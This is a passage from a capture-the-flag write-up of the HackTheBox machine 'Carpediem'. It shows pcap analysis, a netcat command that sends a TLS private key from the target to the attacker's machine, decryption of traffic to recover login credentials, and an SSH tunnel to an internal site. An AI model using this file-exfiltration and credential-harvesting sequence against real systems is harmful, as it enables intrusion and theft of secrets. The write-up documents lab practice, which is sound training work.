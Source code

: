 Instead of using Wireshark like it's 1998, I send the .pcap to my Windows Attack VM and open it using _NetworkMiner_ (like it's 2007) - I think this gives a better quick overview of the dump. From the dump we can quickly see that a certificate has been sent from `backdrop.carpediem.htb` to the docker host on 172.17.0.1, I have no idea of what to do with this information.

![[/assets/images/htb-writeup-carpediem/carpediem17.png]]

Next step took me embarrassingly long time to figure out - from our _linpeas_ output we found a private SSH key. We can use this key to decrypt all SSL traffic, and within we find something interesting.

```bash
➜  carpediem nc -lp 1234 > backdrop.carpediem.htb.key
hflaccus@carpediem:/tmp$ nc -w3 10.10.14.10 1234 < /etc/ssl/certs/backdrop.carpediem.htb.key
```

![[/assets/images/htb-writeup-carpediem/carpediem18.png]]

Now if we follow the TLS Stream we find a login to https://backdrop.carpediem.htb with credentials `jpardella:tGPN6AmJDZwYWdhY`
![[/assets/images/htb-writeup-carpediem/carpediem19.png]]


### Step 2
Now to access `backdrop` we cant simply tunnel with `hflaccus`:
```bash
hflaccus@carpediem:~$ cat /etc/hosts
127.0.0.1 localhost backdrop.carpediem.htb

hflaccus@carpediem:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8002          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5038          0.0.0.0:*               LISTEN      -  
```

Going through all the different ports we find that **8002** is `backdrop`:
```bash
➜  carpediem ssh -N -f -L 8002:localhost:8002 hflaccus@carpediem.htb
hflaccus@carpediem.htb password: AuRj4pxq9qPk

➜  carpediem curl -k https://localhost:8002
[... snip ...]
    <title>Home | backdrop.carpediem.htb</title>
```

We're now able to login to _backdrop_ using credentials `jpardella:tGPN6AmJDZwYWdhY`
![[/assets/images/htb-writeup-carpediem/carpediem20.png]]
